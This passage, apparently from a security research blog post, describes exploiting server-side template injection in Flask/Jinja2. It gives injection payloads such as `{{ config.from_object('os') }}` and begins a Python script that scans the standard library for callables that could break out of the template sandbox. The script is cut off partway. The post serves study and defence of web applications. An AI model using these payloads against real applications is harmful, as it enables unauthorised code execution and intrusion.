 The `from_object` method then adds all attributes of the newly loaded module whose variable name is all uppercase to the `config` object. The interesting thing about this is that attributes added to the `config` object maintain their type, which means functions added to the `config` object can be called from the template context via the `config` object. To demonstrate this, inject `{{ config.items() }}` into the SSTI vulnerability and note the current configuration entries.

[![](/images/posts/ssti_flask_5.png)](/images/posts/ssti_flask_5.png)

Then inject `{{ config.from_object('os') }}`. This will add to the `config` object all attributes of the `os` library whose variable names are all uppercase. Inject `{{ config.items() }}` again and notice the new configuration items. Also notice the types of these configuration items.

[![](/images/posts/ssti_flask_6.png)](/images/posts/ssti_flask_6.png)

Any callable items added to the `config` object can now be called through the SSTI vulnerability. The next step is finding functionality within the available importable modules that can be manipulated to break out of the template sandbox.

The following script replicates the behavior of `from_object` and `import_string` and analyzes the entire Python Standard Library for importable items.

```python
#!/usr/bin/env python

from stdlib_list import stdlib_list
import argparse
import sys

def import_string(import_name, silent=True):
    import_name = str(import_name).replace(':', '.')
    try:
        try:
            __import__(import_name)
        except ImportError:
            if '.' not in import_name:
                raise
        else:
            return sys.modules[import_name]

        module_name, obj_name = import_name.rsplit('.', 1)
        try:
            module = __import__(module_name, None, None, [obj_name])
        except ImportError:
            # support importing modules not yet set up by the parent module
            # (or package for that matter)
            module = import_string(module_name)

        try:
            return getattr(module, obj_name)
        except AttributeError as e:
            raise ImportError(e)

    except ImportError as e:
        if not silent:
            raise

class ScanManager(object):

    def __init__(self, version='2.6'):
        self.libs = stdlib_list(version)

    def from_object(self, obj):
        obj = import_string(obj)
        config = {}
        for key in dir(obj):
            if key.isupper():
```